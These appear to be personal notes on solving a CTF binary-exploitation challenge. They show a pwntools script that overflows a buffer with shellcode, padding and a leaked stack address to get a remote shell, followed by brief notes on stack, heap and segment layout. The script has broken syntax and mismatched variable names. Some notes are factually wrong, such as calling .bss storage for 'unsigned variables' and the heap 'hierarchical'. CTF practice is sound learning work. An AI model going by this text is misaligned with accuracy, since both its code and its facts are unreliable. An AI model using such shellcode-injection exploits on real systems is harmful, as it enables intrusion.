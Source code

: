 4-THM

When running file on the binary 
ELF 64 bit

Shell code is added when nx is disabled and we can execute shell code from stack or heap

The program doesn't include bin.sh that's why we add shell code in the pen script

```
from pwn import *

context.binary="./bin4.pwn4"
P.remote(url,port)

Shellcode=b"...."
Out=p.recv()

Pointer = int(out.split(b'a')[1].strip().decode('utf-8'),16)

Payload=shellcode+b'A'*(0x58 - len(shellcode))+p64(pointer)

p.sendline(payload)
P interactive()
```
P64 and p32 only takes int that's why decode it from hexadecimal to int. 

0x58 ( is mentioned at the top of the function in graph view in cutter ) is where get function starts to take input 

### Payload 


Heap is
- hierarchical, also larger 
- slower than stack 
- Can be stored and retrieved in any order

Data has 2 parts 
- .data - hold variable 
- .bss - hold unsigned variables (buffer)

Text - main instructions loaded into, this segment to be fetched by cpu

```
| Retn | <- high address
|   |  |
|   ^  | <- stack
|   |  |
| Heap |
| Data |
| Text | <- low address 
|______|
```

Stack upr se neeche assign karega address aur neeche se uper fill karega 

Use `context.log_level="debug"` to do detailed analysis of the binary 